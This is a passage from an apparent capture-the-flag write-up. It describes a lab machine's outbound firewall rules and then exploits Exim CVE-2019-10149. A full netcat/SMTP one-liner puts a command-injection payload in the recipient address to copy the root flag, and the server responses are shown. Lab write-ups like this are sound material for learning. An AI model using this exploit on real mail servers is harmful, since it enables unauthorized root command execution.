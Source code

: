 

Specifically looking at the OUTPUT rules, the default policy is to
block. Then , the rules are:

1.  Allow icmp out.
2.  Allow DNS out based on dest port.
3.  Allow FTP-data out based on source port.
4.  Allow anything out via loopback.
5.  Allow established TCP connections out.
6.  Allow established UDP connections out.
7.  Reject.

### Exim Exploit CVE-2019-10149

I had written some defensive signatures for this CVE when it was
released in summer 2019, so I was excited to see this box potentially
running a vulnerable version of EXIM. It took a bit of playing around
with, but [this
post](https://glitchwitch.io/blog/2019-06/exploiting-cve-2019-10149/)
really helped. Shoutout to jkr, who was very helpful in figuring this
out.

I'll do a `touch` on the file first, as if EXIM creates it, it creates
it with permissions 600, which means I won't be able to read it. Then,
I'll string a bunch of `echo` and `sleep` to simulate the SMTP
connection, sending the malicious payload in the to address. In this
case, I'll have it run the command to copy the root flag into
`/dev/shm`. It's tricky not to use `/tmp` here, since systemd's private
tmp feature means that Apache and EXIM have different `/tmp`.



    scavenger> touch /dev/shm/flag;(sleep 0.1 ; echo HELO foo ; sleep 0.1 ; echo 'MAIL FROM:<>' ; sleep 0.1 ; echo 'RCPT TO:<${run{\x2Fbin\x2Fsh\x09-c\x09\x22cat\x09\x2Froot\x2Froot.txt\x3E\x3E\x2Fdev\x2Fshm\x2Fflag\x22}}@localhost>' ; sleep 0.1 ; echo DATA ; sleep 0.1 ; echo "Received: 1" ; echo "Received: 2" ;echo "Received: 3" ;echo "Received: 4" ;echo "Received: 5" ;echo "Received: 6" ;echo "Received: 7" ;echo "Received: 8" ;echo "Received: 9" ;echo "Received: 10" ;echo "Received: 11" ;echo "Received: 12" ;echo "Received: 13" ;echo "Received: 14" ;echo "Received: 15" ;echo "Received: 16" ;echo "Received: 17" ;echo "Received: 18" ;echo "Received: 19" ;echo "Received: 20" ;echo "Received: 21" ;echo "Received: 22" ;echo "Received: 23" ;echo "Received: 24" ;echo "Received: 25" ;echo "Received: 26" ;echo "Received: 27" ;echo "Received: 28" ;echo "Received: 29" ;echo "Received: 30" ;echo "Received: 31" ;echo "" ; echo "." ; echo QUIT) | nc 127.0.0.1 25
    220 ib01.supersechosting.htb ESMTP Exim 4.89 Tue, 27 Aug 2019 08:22:09 +0200
    250 ib01.supersechosting.htb Hello localhost [127.0.0.1]
    250 OK
    250 Accepted
    354 Enter message, ending with "." on a line by itself
    250 OK id=1i2Urp-0000m2-Dy
    221 ib01.supersechosting.htb closing connection

    scavenger> cat /dev/shm/flag
    4a08d8174e9ec22b01d91ddb9a732b17
    4a08d8174e9ec22b01d91ddb9a732b17







